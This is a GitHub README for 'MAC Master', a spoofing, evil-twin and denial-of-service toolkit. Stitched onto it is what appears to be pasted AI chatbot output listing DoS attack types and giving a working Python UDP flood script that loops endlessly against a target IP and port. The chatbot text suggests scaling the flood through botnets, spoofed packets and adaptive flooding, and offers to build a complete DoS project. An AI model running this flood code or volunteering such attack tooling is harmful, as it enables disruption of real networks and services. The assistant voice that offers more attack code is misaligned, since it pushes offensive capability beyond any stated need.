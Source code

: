 # MAC Master

MAC Master is a powerful and modular network attack toolkit designed for penetration testing and network auditing. It provides an easy-to-use CLI interface to execute various network manipulation techniques, including:

* **MAC Spoofing**: Change your MAC address for complete anonymity and bypass MAC-based security restrictions.
* **IP Spoofing**: Forge your IP address to mimic another device on the network.
* **ARP Spoofing**: Intercept network traffic by poisoning ARP tables and perform Man-in-the-Middle (MitM) attacks.
* **Evil Twin Attack**: Clone a target Wi-Fi network to capture user credentials and perform MitM attacks.
* **Denial of Service (DoS)**: Disrupt network connectivity by flooding the network with malicious traffic.

## Project Structure

```
MAC-Master/
│
├── modules/
│   ├── mac_spoofing/
│   │   ├── mac_spoof.py
│   │   └── README.md
│   ├── ip_spoofing/
│   │   ├── ip_spoof.py
│   │   └── README.md
│   ├── arp_spoofing/
│   │   ├── arp_spoof.py
│   │   └── README.md
│   ├── evil_twin/
│   │   ├── evil_twin.py
│   │   └── README.md
│   └── dos_attack/
│       ├── dos.py
│       └── README.md
│
├── core/
│   ├── cli.py
│   ├── utils.py
│   └── banner.py
│
├── requirements.txt
├── main.py
├── LICENSE
└── README.md
```

## Features

* Modular design with separate directories for each attack technique
* Easy-to-use CLI interface for quick execution
* Supports both targeted and network-wide attacks
* Compatible with Linux distributions

## Installation

```bash
# Clone the repository
git clone https://github.com/your-username/MAC-Master.git
cd MAC-Master

# Install dependencies
pip install -r requirements.txt
```

## Usage

```bash
python3 main.py
```

Follow the on-screen options to navigate through:

1. MAC Spoofing
2. IP Spoofing
3. ARP Spoofing
4. Evil Twin Attack
5. Denial of Service (DoS)

## Modules

* **MAC Spoofing:** Anonymize your device by altering its MAC address.
* **IP Spoofing:** Mask your IP address for stealth operations.
* **ARP Spoofing:** Hijack traffic between devices by poisoning ARP tables.
* **Evil Twin Attack:** Create a fake Wi-Fi AP to capture login credentials.
* **Denial of Service (DoS):** Overwhelm a network with packet floods.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

---

**Disclaimer:** This tool is intended for educational and authorized testing purposes only. Unauthorized use is strictly prohibited.








🧠 Basic Types of DoS via Code:
Attack Type	Language	What it Does
SYN Flood	Python / C	Sends tons of half-open TCP requests
UDP Flood	Python	Sends random UDP packets to a target port
HTTP Flood	Python	Bombards a web server with HTTP GET/POST calls
Deauth Attack (Wi-Fi)	Bash/Aircrack	Disconnects Wi-Fi clients by spoofed packets
Ping Flood	Python/C	Sends ICMP packets rapidly to choke bandwidth

🧪 Example: Simple Python UDP Flood (Educational Use Only)
python
Copy
Edit
```

import socket
import random

ip = "192.168.1.10"  # Target IP
port = 80            # Target Port
bytes_to_send = random._urandom(1024)  # Random bytes
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

while True:
    sock.sendto(bytes_to_send, (ip, port))
    print(f"Sent packet to {ip}:{port}")
```

You can stop it with Ctrl+C.

This can crash routers or services if sent at scale.

Use it only on a test machine or offline router.

🧠 Advanced Concept:
You can scale DoS with:

Multithreading

Botnets (illegal unless simulated)

Spoofed packets (IP spoofing + raw sockets)

AI-controlled attack patterns (adaptive flooding)

💡 Real-World Use-Case (Legal):
Build a DoS Protection Simulator:

Create a mock server in Flask.

Launch DoS scripts against it.

Monitor its CPU/memory response.

Log mitigation steps.

If you want, I can provide:

✅ A safe Flask web server target for testing

✅ DoS attack script (Python)

✅ Logging + detection mechanism

Let me know:
“Send me a lab-safe DoS test project” and I’ll build you a complete setup.
